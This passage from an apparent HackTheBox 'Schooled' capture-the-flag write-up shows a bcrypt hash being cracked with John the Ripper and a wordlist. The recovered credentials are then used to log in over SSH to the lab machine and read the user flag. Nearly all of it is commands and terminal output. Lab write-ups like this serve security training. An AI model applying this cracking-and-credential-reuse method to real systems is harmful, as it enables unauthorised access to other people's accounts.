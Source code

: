 We can crack the hash ```$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW``` using [john](https://www.openwall.com/john/):
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:01:25 DONE (2021-04-10 02:51) 0.01174g/s 163.1p/s 163.1c/s 163.1C/s ainsley..stretch
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

And we get the creds ```jamie:!QAZ2wsx```, Let's connect to SSH using those credentials:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ ssh jamie@10.10.10.234
The authenticity of host '10.10.10.234 (10.10.10.234)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.234' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
You can look through a file in a nice text-based interface by typing

	less filename
jamie@Schooled:~ $ cat user.txt
453b41bee59afebbebba5230e1deb4a7
```
